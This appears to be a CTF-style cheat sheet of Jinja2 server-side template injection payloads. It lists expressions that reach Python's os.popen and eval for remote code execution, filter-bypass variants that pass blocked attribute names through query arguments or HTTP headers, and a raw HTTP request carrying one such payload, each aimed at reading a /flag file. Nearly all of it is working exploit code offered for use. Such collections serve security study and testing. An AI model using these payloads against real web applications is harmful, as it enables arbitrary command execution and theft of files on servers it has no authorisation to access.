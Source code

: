 # Jinja2

## The simplest payloads to achieve RCE

```py
{{cycler.__init__.__globals__["os"].popen("ls").read()}}
{{self.__init__.__globals__.__builtins__["eval"]("set(open(''/flag'))")}}
{{().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["eval"]("set(open('/flag'))")}}
```

## No dots, no attr, no |, no 'flag', no subclasses, no globals, no `__class__`, no mro

```py
# http://localhost:1337/?c=__class__&s=__subclasses__&b=__globals__&bb=__builtins__&cmd=set(open(%22/flag.txt%22))

{{(()[request["args"]["c"]][request["args"]["c"]][request["args"]["s"]](()[request["args"]["c"]][request["args"]["c"]])[0]["register"])[request["args"]["b"]][request["args"]["bb"]]["eval"](request["args"]["cmd"])}}
```

## No dots, no attr, no |, no 'flag', no subclasses, no globals, no args, no mro, no `__class__`, idk what to put anymore

```http
GET /?q={{(()[request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["s"]](()[request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]])[0]["register"])[request["headers"]["b"]][request["headers"]["bb"]]["eval"](request["headers"]["cmd"])}} HTTP/1.1
Host: localhost:1337
c:__class__
s:__subclasses__
b:__globals__
bb:__builtins__
cmd:set(open("/flag"))
Connection: close
```
(You can also use cookies)


Other payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass

Forcing output on blind RCE: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---forcing-output-on-blind-rce
